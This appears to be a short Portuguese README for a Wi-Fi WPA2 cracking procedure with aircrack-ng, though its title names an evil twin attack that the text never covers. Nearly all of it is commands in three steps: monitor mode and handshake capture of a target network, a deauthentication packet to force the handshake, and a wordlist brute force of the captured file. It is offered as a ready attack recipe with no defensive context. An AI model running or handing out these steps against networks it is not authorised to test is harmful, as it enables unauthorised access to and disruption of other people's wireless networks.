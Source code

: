 # Wifi-WPA2-Evil-Twin-Attack--aircrack-ng

1-Capturar o handshake

ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
airodump-ng --essid-regex "Red*" -a wlanmon0
airodump-ng wlan0mon
mkdir wpa
cd wpa
airodump-ng --bssid BSSIDTARGET -c 11 -w cvr wlan0mon 

2-Desautenticar para forçar o handshake

aireplay-ng -0 1 -a TARGETBSSID wlan0mon        (-0 = tipo do ataque(deauth) 1 = 1 pacote de desautenticação) (-a 00:17:9A:35:53:22 = acess point + bssid)

3-Brute force

aircrack-ng -b TARGETBSSID -w /usr/share/wordlists/dirb/big.txt cvr-01.cap
